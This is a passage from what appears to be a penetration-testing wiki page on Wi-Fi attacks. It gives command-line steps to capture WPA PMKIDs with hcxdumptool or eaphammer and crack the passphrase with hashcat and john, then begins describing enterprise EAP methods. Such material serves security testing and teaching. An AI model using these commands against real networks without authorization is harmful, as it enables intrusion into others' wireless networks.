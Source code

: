 As explained in the original post, the **PMKID** is derived by using data which is known to us:

```bash
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```
**Since the “PMK Name” string is constant, we know both the BSSID of the AP and the station and the** **`PMK`** **is the same one obtained from a full 4-way handshake**, this is all hashcat needs in order to crack the PSK and recover the passphrase!

To **gather** this information and **bruteforce** locally the password you can do:
```bash
airmon-ng check kill
airmon-ng start wlan0

git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install

hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1


#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```

The **PMKIDs captured** will be shown in the **console** and also **saved** inside _ **/tmp/attack.pcap**_ Now, convert the capture to **hashcat/john** format and crack it:

```bash
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng

hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Please note the the format of a correct hash contains **4 parts**, like: _4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7*566f6461666f6e65436f6e6e6563743034383131343838_

```
If yours only contains 3 parts, then, it is invalid (the PMKID capture wasn't valid).
```


---

## WPA Enterprise (MGT)
**It** is important to talk about the **different authentication methods** that could be used by an enterprise Wifi. For this kind of Wifis you will probably find in `airodump-ng` something like this:

```
6A:FE:3B:73:18:FB -58 19 0 0 1 195 WPA2 CCMP MGT NameOfMyWifi
```

**EAP** (Extensible Authentication Protocol) the **skull** of the **authentication communication**, on **top** of this, an **authentication algorithm** is used by the server to authenticate the **client** (**supplicant**) and in same cases by the client to authenticate the server.
Main authentication algorithms used in this case:
-   **EAP-GTC:** Is an EAP method to support the use of hardware tokens and one-time passwords with EAP-PEAP. Its implementation is similar to MSCHAPv2, but does not use a peer challenge. Instead, passwords are sent to the access point in **plaintext** (very interesting for downgrade attacks).
    
